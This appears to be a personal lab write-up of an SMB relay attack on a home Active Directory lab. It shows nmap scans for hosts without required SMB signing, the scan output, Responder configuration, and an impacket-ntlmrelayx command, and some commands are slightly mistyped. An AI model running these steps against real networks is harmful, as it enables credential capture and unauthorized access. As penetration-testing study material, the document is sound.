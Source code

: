 #smbrelayattack
#smbsigningdisabled
## SMB Relay Attacks Lab

1. Identify the host without SMB signing enabled
Command: `nmap script=smb2-security-mode.nse -p445 192.168.64.0/24 -Pn | grep not`

`-Pn` - Treats all hosts as online, skipping host discovery. This is useful if you know the host is up but it isn't responding to ICMP echo requests (ping).


Here is the result

- For the domain controller, we cannot take advantage and use the SMb relay attack because **Message signing is enabled and required** 

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.250 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.250
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 16:91:DE:D1:61:68 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds

```

- For the two domain computers joined to the Domain controller (192.168.64.220 and 192.168.64.221) an SMb relay attack can be executed because **Message signing is enabled but not required**. Please see below

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.220 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.220
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 4E:4F:0D:0B:16:40 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.221 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 17:00 PDT
Nmap scan report for 192.168.64.221
Host is up (0.0074s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 8E:27:0F:FF:34:D1 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
 
```


2. After we identified the targets, put it in text file targets.txt

![[Pasted image 20240714202517.png]]

3. Change the responder configuration file to **SMB=OFF and HTTP=OFF**
`sudo mousepad /etc/responder/Responder.conf`

![[Pasted image 20240714202746.png]]

Check if they are off by running the command `sudo responder -I eth0 -dwPv`

4. Setup ntlmrelayx while the responder is running

	- If you have pimpmykali installed, just use ntmrelay
	- If you haven't pimpmykali, you can use the impacket-ntmlrelayx - newer version but not sure if it will work

![[Pasted image 20240714210446.png]]

```
impacket-ntlmrelayx -tf targets.txt smb2support
```

Execute the smb


![[Pasted image 20240714210802.png]]

We cant access but we captured the logs in kali

![[Pasted image 20240714210939.png]]


nmap script=smb2-security-mode.nse -p445 192.168.64.0/24 -Pn | grep not